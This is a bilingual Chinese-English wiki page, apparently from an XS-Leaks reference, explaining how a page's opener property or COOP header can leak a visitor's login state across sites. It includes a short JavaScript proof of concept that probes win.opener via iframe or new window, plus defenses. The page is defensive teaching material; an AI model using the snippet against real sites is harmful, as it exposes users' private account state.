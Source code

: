 +++
title = "窗口引用"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++

如果一个页面将其 `opener` 属性设置为 `null` 或使用 [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) 取决于用户的状态进行防护，就有可能推断出关于该状态的跨站信息。例如，攻击者可以在 iframe（或一个新窗口）中打开一个只有认证用户才能访问的地址来检测用户是否登录，只需要检查它的 window reference 即可。

If a page sets its `opener` property to `null` or is using [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) protection depending on the users' state, it becomes possible to infer cross-site information about that state. For example, attackers can detect whether a user is logged in by opening an endpoint in an iframe (or a new window) which only authenticated users have access to, simply by checking its window reference. 

## 代码片段
下面的片段演示了如何检测 `opener` 属性是否被设置为`null`，或者 [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) 头是否不为 `unsafe-none`。这在 iframes 和新窗口中都可以进行。

The below snippet demonstrates how to detect whether the `opener` property was set to `null`, or whether the [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) header is present with a value other than `unsafe-none`. This can be done with both iframes and new windows.

```javascript
// 有漏洞的 URL
const v_url = 'https://example.org/profile';

const exploit = (url, new_window) => {
  let win;
  if(new_window){
    // 在新标签页中打开 url 来确定 win.opener 是否收到 COOP 的影响
    // 或者置为 null
    win = open(url);
  }else{
    // 新建一个 iframe 来检测 opener 是否定义
    // COOP 检测无法使用，有 framing protections 保护的也无法使用
    document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks">'); 
    // 重定向 iframe 到有漏洞的 url
    win = open(url, "xsleaks");
  }
  
  // 延时 2s，等页面加载
  setTimeout(() => {
    // 检查新打开的 windows 的 opener 属性
    if(!win.opener) console.log("win.opener is null");
    else console.log("win.opener is defined");
  }, 2000);
}
exploit(v_url);
exploit(v_url, 1);
```

## 防御
为了减少这种类型的 XS-Leak，在不同的页面上要保持一致：使用 COOP 将所有页面上的 `opener` 属性设置为相同的值。使用 JavaScript 将 `opener` 设置为 `null` 会导致一些极端情况下的问题，因为通过 iframe 的沙盒属性是可以禁用 JavaScript 的。

To mitigate this type of XS-Leak, be consistent across different pages: set the `opener` property to the same value on all pages using COOP. Using JavaScript to set `opener` to `null` can result in edge cases because it's possible to disable JavaScript entirely using iframe's sandbox attribute.
